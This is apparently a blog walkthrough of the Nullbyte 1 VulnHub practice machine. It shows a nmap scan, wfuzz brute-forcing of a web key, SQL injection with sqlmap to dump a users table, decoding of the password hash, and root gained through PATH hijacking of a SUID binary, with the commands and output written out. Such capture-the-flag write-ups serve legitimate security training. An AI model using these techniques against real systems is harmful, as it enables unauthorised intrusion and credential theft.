




### Nullbyte 1

Today we try Nullbyte by ly0n which you can find here on vulnhub
https://www.vulnhub.com/entry/nullbyte-1,126/

Start with the nmap scan.
```
# Nmap 7.60 scan initiated Tue Mar 20 19:51:37 2018 as: nmap -v -Pn -n -sV -sC -oA nullbyte 192.168.147.166
Nmap scan report for 192.168.147.166
Host is up (0.0023s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE VERSION
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Null Byte 00 - level 1
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          55721/tcp  status
|_  100024  1          57933/udp  status
777/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 16:30:13:d9:d5:55:36:e8:1b:b7:d9:ba:55:2f:d7:44 (DSA)
|   2048 29:aa:7d:2e:60:8b:a6:a1:c2:bd:7c:c8:bd:3c:f4:f2 (RSA)
|   256 60:06:e3:64:8f:8a:6f:a7:74:5a:8b:3f:e1:24:93:96 (ECDSA)
|_  256 bc:f7:44:8d:79:6a:19:48:76:a3:e2:44:92:dc:13:a2 (EdDSA)
MAC Address: 00:0C:29:7C:B0:EE (VMware)
```
Nothing crazy just ssh on a random port, rpc, and Apache. Checking the Apache we get a nice image file.


Looking at the file with exiftool the comment field has something different.
```
root@sushi:~/vulnhub/nullbyte# exiftool main.gif                                                      
ExifTool Version Number         : 10.60            
File Name                       : main.gif                                                            
Directory                       : .                
File Size                       : 16 kB                                                               
File Modification Date/Time     : 2018:03:20 19:57:16-04:00                                           
File Access Date/Time           : 2018:03:20 19:57:25-04:00                                           
File Inode Change Date/Time     : 2018:03:20 19:57:17-04:00                                           
File Permissions                : rw-r--r--                                                           
File Type                       : GIF              
File Type Extension             : gif                                                                 
MIME Type                       : image/gif        
GIF Version                     : 89a                                                                 
Image Width                     : 235              
Image Height                    : 302              
Has Color Map                   : No
Color Resolution Depth          : 8
Bits Per Pixel                  : 1
Background Color                : 0
Comment                         : P-): kzMb5nVYJw
Image Size                      : 235x302
Megapixels                      : 0.071
```
Sure enough if you browse to this comment value we get an input box asking for a key, with another interesting comment in the source.





So the password ain't that complex that's always good, we try some crappy passwords and get nothing. Time to fire up wfuzz against it.
```
root@sushi:~# wfuzz -c -w ~/seclists/Passwords/10k_most_common.txt --hl=8 -d "key=FUZZ" http://192.168.147.166/kzMb5nVYJw/index.php 
********************************************************
* Wfuzz 2.1.5 - The Web Bruteforcer                      *
********************************************************

Target: http://192.168.147.166/kzMb5nVYJw/index.php
Total requests: 10000

==================================================================
ID      Response   Lines      Word         Chars          Request    
==================================================================

04342:  C=200      6 L        14 W          145 Ch        "elite"
```
Good stuff the password is "elite" then. Entering that we get to some kind of user search box, 420search.php



So by accident I submit it with nothing and it spits back a couple employees...


We also see a nice sql error if you submit with "". 
```
root@sushi:~/vulnhub/nullbyte# curl http://192.168.147.166/kzMb5nVYJw/420search.php?usrtosearch=%27%27%22
Could not get data: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%"' at line 1
```
At this point we get stuck for awhile trying to get anything from this, and then eventually just give up and use sqlmap.
```
root@sushi:~# sqlmap --url="http://192.168.147.166/kzMb5nVYJw/420search.php?usrtosearch=a*" --dbms=MySQL --dump-all --level=5 --risk=3
```
It gives us back way too much information, but towards the top is this users table with our two employees from before.
```
Database: seth                                                                                                                                                                                               
Table: users                                                                                                                                                                                                 
[2 entries]                                                                                                                                                                                                  
+----+---------------------------------------------+--------+------------+                                                                                                                                   
| id | pass                                        | user   | position   |                                                                                                                                   
+----+---------------------------------------------+--------+------------+                                                                                                                                   
| 1  | YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE | ramses | <blank>    |                                                                                                                                   
| 2  | --not allowed--                             | isis   | employee   |                                                                                                                                   
+----+---------------------------------------------+--------+------------+ 
```
We take a wild guess that it might be base64 as it doesn't look like any other hash I'm used to.
```
root@sushi:~# echo "YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE" | base64 -d
c6d6bd7ebf806f43c76acc3681703b81base64: invalid input
```
Kind of weird there but we now have what looks like an MD5.
```
root@sushi:~# hash-identifier                      
   #########################################################################                          
   #     __  __                     __           ______    _____           #                          
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #                          
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #                          
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #                          
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #                          
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #                          
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.1 #                          
   #                                                             By Zion3R #                          
   #                                                    www.Blackploit.com #                          
   #                                                   Root@Blackploit.com #                          
   #########################################################################                          
                                                                                                      
   -------------------------------------------------------------------------                          
 HASH: c6d6bd7ebf806f43c76acc3681703b81

Possible Hashs:
[+]  MD5
[+]  Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```
So we just check that on hashtoolkit and its plaintext is "omega".



Now that we might have the password for this ramses user, we try it against the phpmyadmin and the ssh running on the box. No dice for phpmyadmin but we can ssh in as ramses for low privileges. Looking around, the first thing we notice is ramses bash history.
```
ramses@NullByte:~$ cat .bash_history
sudo -s
su eric
exit
ls
clear
cd /var/www
cd backup/
ls
./procwatch 
clear
sudo -s
cd /
ls
exit
```
Looks like that procwatch binary is running as suid also.
```
ramses@NullByte:~$ find / -perm -4000 -exec ls -al -print 2>/dev/null {} \; | grep procwatch
391947 -rwsr-xr-x 1 0 0 4932 Aug  2  2015 /var/www/backup/procwatch
```
In the folder with it we find this random text file
```
ramses@NullByte:/var/www/backup$ ls
procwatch  readme.txt
ramses@NullByte:/var/www/backup$ cat readme.txt
I have to fix this mess... 
```
So we run the procwatch executable, and it spits out this about sh and ps.
```
ramses@NullByte:/var/www/backup$ ./procwatch
  PID TTY          TIME CMD
 1649 pts/0    00:00:00 procwatch
 1650 pts/0    00:00:00 sh
 1651 pts/0    00:00:00 ps
```
Looking at its strings, it seems to be a short C program that just loads a system function so we quickly take a look at main with objdump hoping we don't have to debug anything on Linux here.
```
ramses@NullByte:/var/www/backup$ objdump -D procwatch | grep "<main>" -A 30
080483fb <main>:
 80483fb:       8d 4c 24 04             lea    0x4(%esp),%ecx
 80483ff:       83 e4 f0                and    $0xfffffff0,%esp
 8048402:       ff 71 fc                pushl  -0x4(%ecx)
 8048405:       55                      push   %ebp
 8048406:       89 e5                   mov    %esp,%ebp
 8048408:       51                      push   %ecx
 8048409:       83 ec 44                sub    $0x44,%esp
 804840c:       8d 45 c6                lea    -0x3a(%ebp),%eax
 804840f:       66 c7 00 70 73          movw   $0x7370,(%eax)
 8048414:       c6 40 02 00             movb   $0x0,0x2(%eax)
 8048418:       83 ec 0c                sub    $0xc,%esp
 804841b:       8d 45 c6                lea    -0x3a(%ebp),%eax
 804841e:       50                      push   %eax
 804841f:       e8 ac fe ff ff          call   80482d0 <system@plt>
 8048424:       83 c4 10                add    $0x10,%esp
 8048427:       b8 00 00 00 00          mov    $0x0,%eax
 804842c:       8b 4d fc                mov    -0x4(%ebp),%ecx
 804842f:       c9                      leave  
 8048430:       8d 61 fc                lea    -0x4(%ecx),%esp
 8048433:       c3                      ret    
 8048434:       66 90                   xchg   %ax,%ax
 8048436:       66 90                   xchg   %ax,%ax
 8048438:       66 90                   xchg   %ax,%ax
 804843a:       66 90                   xchg   %ax,%ax
 804843c:       66 90                   xchg   %ax,%ax
 804843e:       66 90                   xchg   %ax,%ax
```
Looking through that for awhile, it seems to be loading the hex 0x73 and 0x70 characters into EAX followed by a null, then calling a system function. Seeing as how that translates to "ps", we take a wild guess and assume that this setuid procwatch executable is calling "ps" without specifying a path. If we can just set the PATH variable to a folder we can write into, then anything named "ps" in there will run instead of the original "ps" at /bin/ps. In this case it will just run /bin/sh as root and game over.
```
ramses@NullByte:/var/www/backup$ export PATH=/var/www/backup:${PATH}
ramses@NullByte:/var/www/backup$ echo '/bin/sh' > ps && chmod +x ps                                                                                                                                          
ramses@NullByte:/var/www/backup$ ls -l                                                                                                                                                                       
total 16                                                                                                                                                                                                     
-rwsr-xr-x 1 root   root   4932 Aug  2  2015 procwatch                                                                                                                                                       
-rwxr-xr-x 1 ramses ramses    8 Mar 21 02:46 ps                                                                                                                                                              
-rw-r--r-- 1 root   root     28 Aug  2  2015 readme.txt                                                                                                                                                      
-rw-r--r-- 1 ramses ramses    0 Mar 21 02:35 test    
ramses@NullByte:/var/www/backup$ ./procwatch       
# id                                               
uid=1002(ramses) gid=1002(ramses) euid=0(root) groups=1002(ramses)                                    
# whoami                                           
root                                               
#                                                            
```
And now we can get our proof.txt
```
# cat proof.txt
adf11c7a9e6523e630aaf3b9b7acb51d

It seems that you have pwned the box, congrats. 
Now you done that I wanna talk with you. Write a walk & mail at
xly0n@sigaint.org attach the walk and proof.txt
If sigaint.org is down you may mail at nbsly0n@gmail.com


USE THIS PGP PUBLIC KEY

-----BEGIN PGP PUBLIC KEY BLOCK-----
Version: BCPG C# v1.6.1.0

mQENBFW9BX8BCACVNFJtV4KeFa/TgJZgNefJQ+fD1+LNEGnv5rw3uSV+jWigpxrJ
Q3tO375S1KRrYxhHjEh0HKwTBCIopIcRFFRy1Qg9uW7cxYnTlDTp9QERuQ7hQOFT
e4QU3gZPd/VibPhzbJC/pdbDpuxqU8iKxqQr0VmTX6wIGwN8GlrnKr1/xhSRTprq
Cu7OyNC8+HKu/NpJ7j8mxDTLrvoD+hD21usssThXgZJ5a31iMWj4i0WUEKFN22KK
+z9pmlOJ5Xfhc2xx+WHtST53Ewk8D+Hjn+mh4s9/pjppdpMFUhr1poXPsI2HTWNe
YcvzcQHwzXj6hvtcXlJj+yzM2iEuRdIJ1r41ABEBAAG0EW5ic2x5MG5AZ21haWwu
Y29tiQEcBBABAgAGBQJVvQV/AAoJENDZ4VE7RHERJVkH/RUeh6qn116Lf5mAScNS
HhWTUulxIllPmnOPxB9/yk0j6fvWE9dDtcS9eFgKCthUQts7OFPhc3ilbYA2Fz7q
m7iAe97aW8pz3AeD6f6MX53Un70B3Z8yJFQbdusbQa1+MI2CCJL44Q/J5654vIGn
XQk6Oc7xWEgxLH+IjNQgh6V+MTce8fOp2SEVPcMZZuz2+XI9nrCV1dfAcwJJyF58
kjxYRRryD57olIyb9GsQgZkvPjHCg5JMdzQqOBoJZFPw/nNCEwQexWrgW7bqL/N8
TM2C0X57+ok7eqj8gUEuX/6FxBtYPpqUIaRT9kdeJPYHsiLJlZcXM0HZrPVvt1HU
Gms=
=PiAQ
-----END PGP PUBLIC KEY BLOCK-----
```
Thanks ly0n that was pretty sweet and as always thanks to Vulnhub.


